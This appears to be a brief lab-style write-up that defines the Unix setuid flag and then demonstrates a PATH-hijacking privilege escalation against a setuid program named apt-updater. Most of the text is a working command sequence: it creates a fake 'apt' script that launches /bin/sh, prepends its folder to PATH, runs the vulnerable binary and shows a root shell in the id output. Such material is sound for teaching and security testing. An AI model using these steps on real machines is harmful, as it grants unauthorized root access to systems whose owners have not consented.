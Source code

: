 Setuid is a Unix access rights flag that allow users to run an executable with the file system permissions of the executable’s owner.

![image](https://user-images.githubusercontent.com/70282840/194762130-00d2b17f-72be-4cac-bd4c-24a7541e9761.png)

**Exploiting a setuid executable**
 Use file attached
 
$ mkdir /tmp/foo # create random directory to put the script

$ echo /bin/sh > /tmp/foo/apt # create the script that will launch /bin/sh

$ chmod 755 /tmp/foo/apt # mark it as executable

$ PATH=/tmp/foo:$PATH /usr/local/bin/apt-updater # override the PATH variable to that it contains /tmp/foo directory & execute the vulnerable program

id # we are root!

uid=0(root) gid=1001(creekorful) groups=1001(creekorful)
